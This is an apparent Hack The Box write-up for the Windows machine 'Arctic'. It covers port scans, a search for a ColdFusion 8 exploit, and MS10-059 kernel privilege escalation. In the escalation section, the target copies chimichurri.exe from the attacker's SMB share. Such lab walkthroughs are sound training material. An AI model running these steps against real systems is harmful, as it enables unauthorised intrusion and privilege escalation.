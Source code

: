 # Hack the Box - Arctic

```CSS
Machine IP: 10.10.10.11
OS: Microsoft Windows Server 2008 R2 Standard

Vulnerabilities:
- Adobe Cloud Fusion 8
- Windows Kernel Exploit MS10-059
```

## Reconnaisance
```CSS
▶ nmap -Pn -sS -p- 10.10.10.11 -T4 --min-rate 1000 -oN surface.nmap

Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-01 13:09 IST
Nmap scan report for 10.10.10.11
Host is up (0.097s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown
```

```css
▶ nmap -sC -sV -p 135,8500,49154 10.10.10.11 -oN deep.nmap

Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-01 13:11 IST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.10.10.11
Host is up (0.086s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 137.00 seconds
```
---

## Application Mapping

![image](https://user-images.githubusercontent.com/83878909/229273435-61068519-cbd8-4c2c-be4f-6dd3c1a87e15.png)
![image](https://user-images.githubusercontent.com/83878909/229273524-6f7ba081-63f5-4fe6-9b4e-d228ef07ec08.png)
![image](https://user-images.githubusercontent.com/83878909/229273721-64bd7f7c-3270-4b3c-99d7-2cb0791a8343.png)

---

## Search for Exploits
```CSS
▶ searchsploit ColdFusion
```
![image](https://user-images.githubusercontent.com/83878909/229282725-1fd751df-4992-44d4-9c8a-c5d2527867c3.png)

### Modify the Exploit Code
![image](https://user-images.githubusercontent.com/83878909/229283393-0791183b-a971-4d68-a64e-32e7e652d8f8.png)

## User Access
![image](https://user-images.githubusercontent.com/83878909/229284344-ca6b43e3-36da-4815-9b62-4432377668eb.png)

---

## Privilege Escalation
### System Information Gathering
![image](https://user-images.githubusercontent.com/83878909/229284588-f0e96832-3491-4d2b-a027-54795caa0a55.png)

  - The target machine's kernel is vulnerable to **MS10-059**.
  - Exploit [(Link)](https://github.com/egre55/windows-kernel-exploits)

### Exploit
  - Tranfer exploit code to target machine.
```CSS
▶ impacket-smbserver share $(pwd) -smb2support 
```
  - Execute the exploit.
```CSS
C:\ColdFusion8\runtime\bin>copy \\10.10.14.34\share\chimichurri.exe
```
![image](https://user-images.githubusercontent.com/83878909/229303301-4b8fef70-a000-42f7-9b72-2dc8c7af037a.png)

## Root
![image](https://user-images.githubusercontent.com/83878909/229306240-86174770-a64c-4935-a387-669ac07555c3.png)

---
